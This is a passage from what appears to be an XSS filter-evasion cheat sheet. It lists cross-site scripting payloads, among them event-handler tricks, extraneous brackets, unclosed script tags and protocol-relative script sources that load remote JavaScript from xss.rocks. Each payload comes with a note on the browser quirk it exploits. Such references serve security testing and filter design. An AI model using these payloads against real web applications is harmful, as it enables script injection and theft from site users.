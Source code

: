 Based on the same idea as above, however, expanded on it, using Rsnake's fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit noted that there is a slightly different behavior between the Trident (IE) and Gecko (Firefox) rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful in a attack if the system does not allow spaces:

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### Extraneous Open Brackets

This XSS vector could defeat certain detection engines that work by checking matching pairs of open and close angle brackets then comparing the tag inside, instead of a more efficient algorithm like [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm) that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to suppress a JavaScript error:

```html
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

(Submitted by Franz Sedlmaier)

### No Closing Script Tags

With Firefox, you don't actually need the `\></SCRIPT>` portion of this XSS vector, because Firefox assumes it's safe to close the HTML tag and adds closing tags for you. Unlike the next attack, which doesn't affect Firefox, this method does not require any additional HTML below it. You can add quotes if you need to, but they're normally not needed:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### Protocol Resolution in Script Tags

This particular variant is partially based on Ozh's protocol resolution bypass below, and it works in IE and Edge in compatibility mode. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The `.j` is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag:

```html
<SCRIPT SRC=//xss.rocks/.j>
```

(Submitted by Łukasz Pilorz)

### Half Open HTML/JavaScript XSS Vector
